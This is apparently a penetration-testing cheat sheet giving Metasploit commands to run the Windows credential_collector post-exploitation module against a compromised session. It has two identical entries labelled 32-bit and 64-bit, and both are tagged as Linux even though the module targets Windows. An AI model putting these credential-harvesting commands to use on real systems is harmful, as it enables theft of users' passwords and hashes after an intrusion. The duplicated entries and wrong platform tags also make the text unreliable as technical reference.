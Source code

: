 ## Post Exploitation - Credentials (32-bit)
#plateform/linux #target/local #cat/PRIVESC
```
use post/windows/gather/credentials/credential_collector
set SESSION <session_id>
run
```

## Post Exploitation - Credentials (64-bit)
#plateform/linux #target/local #cat/PRIVESC
```
use post/windows/gather/credentials/credential_collector
set SESSION <session_id>
run
```


